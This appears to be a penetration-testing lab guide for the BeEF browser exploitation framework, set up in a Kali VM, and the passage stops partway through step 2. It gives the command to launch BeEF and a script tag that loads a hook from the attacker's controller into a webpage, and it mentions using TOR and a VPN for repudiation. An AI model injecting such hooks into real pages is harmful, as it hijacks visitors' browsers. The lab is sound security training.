    - You will use the BeEF framework for your research during your penetration tests.


We'll need to complete the following tasks:

- Edit the `.html` file and add malicious JavaScript to the webpage that we'll use in our attack.

- Visit the infected webpage from a host on the network (the victim).

- Execute a BeEF hook, then perform various client-side attacks against the victim’s web browser.

- Recommend three mitigation strategies that defend against BeEF hooks and malicious JavaScript.

#### BeEF Demo

This demo requires the Kali Linux VM which will both act as the attacker and the victim.

1. Acting as the attacker, open a terminal in your Kali VM and initiate BeEF by running: 

   - `sudo beef-xss`
      
      - **Note**: If you receive an pop-up error stating "Failed to execute default Web Browser," click **Close**.
      
   The output contains the malicious JavaScript that you will use for the attack.
         
   - We will use this script in the hook line:
      
     `<script src=”http://127.0.0.1:3000/hook.js” type=”text/javascript”></script>`
      
   We will modify the IP portion of the script to match that of our Kali machine (the attacker). The attacker's computer will act as the BeEF controller.
         
   - Attackers are likely to also use other tools, such as TOR and a VPN, to provide further obfuscation and repudiation.
   
   - Copy the line `<script src="http://127.0.0.1:3000/hook.js"></script>`
   
      ![BeEF Start](./Images/BeEF_Start.png)
      
   
2. Open a new terminal window and start the Apache2 web server. We'll use the Apache2 service to host our malicious webpage.
   
